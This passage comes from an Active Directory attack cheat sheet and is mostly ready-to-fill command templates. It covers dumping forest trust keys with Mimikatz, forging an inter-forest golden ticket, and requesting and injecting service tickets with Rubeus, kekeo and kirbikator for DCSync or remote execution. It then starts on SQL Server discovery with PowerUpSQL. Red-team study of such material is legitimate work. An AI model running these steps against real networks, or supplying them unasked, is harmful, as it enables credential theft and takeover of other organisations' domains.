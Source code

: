 ````
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```
 
#### Get domain SID
```
Get-DomainSID
```
 
#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids:<SID OF THE GROUP>  /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Create a TGS for a service (kekeo_old)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> <SERVICE>/<TARGET SERVER>
```

#### Inject the TGS
```
./kirbikator.exe lsa <KIRBI FILE>
```

#### Use the TGS and execute DCsync or psremoting etc!

## SQL Server
- Could be possible cross domain or cross forest!
```
. .\PowerUpSQL.ps1
```
 
#### Find possible SQL admins or groups that have access to SQL
```
Get-DomainGroup | Where-Object -Property samaccountname -Match SQL
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```
 
### Locating and accessing SQL Servers
#### Discovery of SQL instances (SPN scanning)
```
Get-SQLInstanceDomain
 
$data = Get-DomainComputer -Domain <DOMAIN> | Where-Object serviceprincipalname -Match MSSQL | Select-Object -ExpandProperty serviceprincipalname | Select-String MSSQL
$data = $data -replace 'MSSQLSvc/', ''
```

#### UDP Scan
```
Get-SQLInstanceScanUDP -Computername <COMPUTER LIST> 
```
 
#### Check Local Instance
```
````